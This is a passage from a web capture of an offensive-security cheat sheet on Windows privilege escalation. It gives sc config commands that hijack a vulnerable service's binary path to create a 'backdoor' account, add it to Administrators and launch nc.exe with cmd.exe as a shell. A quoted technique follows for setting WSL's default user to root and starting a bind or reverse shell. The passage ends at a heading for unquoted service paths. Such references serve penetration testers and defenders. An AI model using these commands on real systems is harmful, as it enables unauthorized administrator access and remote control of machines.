 $ sc config <vuln-service> binpath="net user backdoor backdoor123 /add"$ sc config <vuln-service> binpath=  "C:\nc.exe -nv 127.0.0.1 9988 -e C:\WINDOWS\System32\cmd.exe"$ sc stop <vuln-service>$ sc start <vuln-service>$ sc config <vuln-service> binpath="net localgroup Administrators backdoor /add"$ sc stop <vuln-service>$ sc start <vuln-service>

## [![](data:image/svg+xml,%3csvg xmlns='http://www.w3.org/2000/svg' class='octicon octicon-link js-evernote-checked' viewBox='0 0 16 16' version='1.1' width='16' height='16' aria-hidden='true' data-evernote-id='61'%3e%3cpath fill-rule='evenodd' d='M7.775 3.275a.75.75 0 001.06 1.06l1.25-1.25a2 2 0 112.83 2.83l-2.5 2.5a2 2 0 01-2.83 0 .75.75 0 00-1.06 1.06 3.5 3.5 0 004.95 0l2.5-2.5a3.5 3.5 0 00-4.95-4.95l-1.25 1.25zm-4.69 9.64a2 2 0 010-2.83l2.5-2.5a2 2 0 012.83 0 .75.75 0 001.06-1.06 3.5 3.5 0 00-4.95 0l-2.5 2.5a3.5 3.5 0 004.95 4.95l1.25-1.25a.75.75 0 00-1.06-1.06l-1.25 1.25a2 2 0 01-2.83 0z' data-evernote-id='1958' class='js-evernote-checked'%3e%3c/path%3e%3c/svg%3e)](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md#eop---windows-subsystem-for-linux-wsl)EoP - Windows Subsystem for Linux (WSL)

Technique borrowed from [Warlockobama's tweet](https://twitter.com/Warlockobama/status/1067890915753132032)

> With root privileges Windows Subsystem for Linux (WSL) allows users to create a bind shell on any port (no elevation needed). Don't know the root password? No problem just set the default user to root W/ .exe --default-user root. Now start your bind shell or reverse.

wsl whoami
./ubuntun1604.exe config --default-user root
wsl whoami
wsl python -c 'BIND_OR_REVERSE_SHELL_PYTHON_CODE'

Binary `bash.exe` can also be found in `C:\Windows\WinSxS\amd64_microsoft-windows-lxssbash_[...]\bash.exe`

Alternatively you can explore the `WSL` filesystem in the folder `C:\Users\%USERNAME%\AppData\Local\Packages\CanonicalGroupLimited.UbuntuonWindows_79rhkp1fndgsc\LocalStateootfs\`

## [![](data:image/svg+xml,%3csvg xmlns='http://www.w3.org/2000/svg' class='octicon octicon-link js-evernote-checked' viewBox='0 0 16 16' version='1.1' width='16' height='16' aria-hidden='true' data-evernote-id='62'%3e%3cpath fill-rule='evenodd' d='M7.775 3.275a.75.75 0 001.06 1.06l1.25-1.25a2 2 0 112.83 2.83l-2.5 2.5a2 2 0 01-2.83 0 .75.75 0 00-1.06 1.06 3.5 3.5 0 004.95 0l2.5-2.5a3.5 3.5 0 00-4.95-4.95l-1.25 1.25zm-4.69 9.64a2 2 0 010-2.83l2.5-2.5a2 2 0 012.83 0 .75.75 0 001.06-1.06 3.5 3.5 0 00-4.95 0l-2.5 2.5a3.5 3.5 0 004.95 4.95l1.25-1.25a.75.75 0 00-1.06-1.06l-1.25 1.25a2 2 0 01-2.83 0z' data-evernote-id='1974' class='js-evernote-checked'%3e%3c/path%3e%3c/svg%3e)](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md#eop---unquoted-service-paths)EoP - Unquoted Service Paths
